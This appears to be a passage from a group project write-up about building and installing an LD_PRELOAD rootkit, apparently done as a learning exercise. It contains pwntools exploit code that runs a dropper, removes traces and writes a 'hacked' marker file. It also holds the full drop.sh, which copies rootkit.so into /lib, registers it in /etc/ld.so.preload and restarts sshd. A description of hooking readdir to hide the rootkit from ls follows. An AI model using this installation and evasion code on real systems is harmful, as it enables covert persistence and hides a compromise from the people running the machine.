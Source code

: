 ```py
setup_target.sendline('./drop.sh'.encode('ascii')) 	# installs the rootkit
setup_target.sendline(f'rm {rootkit_filename}'.encode('ascii'))
setup_target.sendline('rm rootkit.so'.encode('ascii'))
setup_target.sendline('rm ./drop.sh'.encode('ascii'))
setup_target.sendline('echo "You have been hacked" > hacked.txt'.encode('ascii'))
setup_target.recvuntil('...'.encode('ascii'), timeout=1)

setup_target.close()
target.close()

```

To actually install the rootkit this script calls another script `./drop.sh`. That script is shown below.

```sh
#!/bin/bash

LIBNAME=rootkit.so
LIBPATH="$PWD/$LIBNAME"
LIBDEST="/lib/$LIBNAME"

mv $LIBNAME $LIBDEST
echo $LIBDEST > /etc/ld.so.preload
sudo systemctl restart ssh
```

It simply moves the rootkit to the `/lib` directory and then adds its path to the `/etc/ld.so.preload`. Next, it restarts `sshd` so that it starts using the `write` system call from `rootkit.so` instead of `libc`.

## Developed Features

After each group implemented their base features along with the exploit script, each team got to implement custom features of their choice. Unfortunately, we didn't end up having as much time as expected, so the custom features ended up being less so features, and more so post-exploitation demos.

### Evasion

Our first group decided to directly expand upon the base rootkit by reading further into the [original](https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/) blog post. They introduced 2 evasion features to hide the rootkit from `ls` and `netstat`.

#### LS

Hiding from `ls` is rather simple. For LS to function, it uses the `readdir` syscall to iterate through a directory. Given a pointer to a directory stream, the `readdir` syscall is meant to return the next directory entry in the directory. Calling it in a loop allows `ls` to iterate through a directory and list information about each file.

However, our goal was to hide a file from ls. To do so, we can hook the `readdir` syscall, and then instruct it to skip over the rootkit directory entry. This way, as `ls` iterates through a directory, it fails to detect our malicious library.
